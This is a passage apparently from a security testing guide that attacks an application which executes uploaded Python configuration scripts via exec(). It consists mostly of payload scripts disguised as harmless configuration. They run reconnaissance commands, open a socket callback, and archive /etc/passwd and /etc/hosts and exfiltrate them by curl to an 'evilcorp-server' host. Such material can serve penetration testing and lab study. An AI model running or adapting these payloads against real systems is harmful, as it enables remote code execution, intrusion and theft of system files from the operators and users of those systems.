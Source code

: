 ```
  "transactions": []
}
```

### Advanced JSON Attacks

Upload the injection_files/import.json

---

## Configuration Script Attacks

### Target: config_script format
User uploads Python scripts that get executed with `exec(file_content)`

**Direct Python Script Execution**

Create file `malicious.py`:
```
# Legitimate looking configuration
print("Loading import configuration...")

import os
import subprocess

# Attack payloads
os.system('echo PYTHON_SCRIPT_ATTACK > /tmp/script_success.txt')
os.system('whoami > /tmp/script_user.txt')

# HTTP callback
os.system('curl -X POST http://evilcorp-server:8888/script --data "python_exec=successful"')

print("Configuration loaded!")
```

**Advanced Python Script**
```
import os
import subprocess
import socket

# System reconnaissance
os.system('id > /tmp/script_id.txt')
os.system('uname -a > /tmp/script_system.txt')

# Network callback
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('evilcorp-server', 5555))
    s.send(b'Python script callback successful\n')
    s.close()
except:
    pass

# File exfiltration
os.system('tar -czf /tmp/sensitive.tar.gz /etc/passwd /etc/hosts 2>/dev/null')
os.system('curl -X POST http://evilcorp-server:8888/files --data-binary @/tmp/sensitive.tar.gz')
```

---